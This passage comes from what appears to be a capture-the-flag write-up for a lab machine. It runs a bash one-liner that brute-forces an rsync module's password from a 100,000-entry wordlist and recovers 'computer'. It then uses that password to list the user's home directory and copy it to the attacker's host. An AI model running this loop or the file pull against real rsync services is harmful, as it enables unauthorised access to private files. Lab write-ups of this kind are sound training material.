     
    
    root@kali# export RSYNC_PASSWORD=password
    root@kali# rsync --list-only rsync://roy@[dead:beef::250:56ff:feb9:7e7c]:8730/home_roy
    ...[snip]...
    @ERROR: auth failed on module home_roy
    rsync error: error starting client-server protocol (code 5) at main.c(1675) [Receiver=3.1.3]
    

Now I can loop over my wordlist, setting the environment variable, and try to
log in with a `bash` one-liner:

    
    
    root@kali# cat 10-million-password-list-top-100000-8char.txt | while read pass; do export RSYNC_PASSWORD=${pass}; rsync --list-only rsync://roy@[dead:beef::0250:56ff:fe88:e5fa]:8730/home_roy 2>&1 | grep -q "auth failed on module home_roy" || { echo "[+] Found password: ${RSYNC_PASSWORD}"; break; } done
    [+] Found password: computer
    

Breaking that down:

  * Dumps the password list into a `while read` loop.
  * For each password, it saves it to the environment variable with `export.
  * It then tries to `rsync`, piping the results (both stdout and stderr) into a `grep`.
  * The `grep` will match on “auth failed on module home_roy”, and return true if matched.
  * `||` is an or, so if the previous command (`grep`) failed (doesn’t find that failure note), it will run the commands between the `{ }`.
  * In this case, that means print the password, and then exit the loop.

### Copy Files

Now with roy’s password, I can access that home directory:

    
    
    root@kali# rsync --list-only rsync://roy@[dead:beef::0250:56ff:fe88:e5fa]:8730/home_roy 
    ...[snip]...
    drwxr-xr-x          4,096 2019/07/28 06:52:29 .
    lrwxrwxrwx              9 2019/07/27 06:57:06 .bash_history
    -rw-r--r--            220 2019/07/27 03:03:28 .bash_logout
    -rw-r--r--          3,526 2019/07/27 03:03:28 .bashrc
    -rw-r--r--            807 2019/07/27 03:03:28 .profile
    -rw-------          4,752 2019/07/27 05:24:24 .tudu.xml
    -r--r--r--             33 2019/07/27 05:24:24 user.txt
    

I can copy the files to my host:

    
    
    root@kali# rsync -a rsync://roy@[dead:beef::0250:56ff:fe88:e5fa]:8730/home_roy/ .
    ...[snip]...
    rsync: symlink "/media/sf_CTFs/hackthebox/zetta-10.10.10.156/rsync/.bash_history" -> "/dev/null" failed: Operation not permitted (1)
    rsync error: some files/attrs were not transferred (see previous errors) (code 23) at main.c(1677) [generator=3.1.3]
    
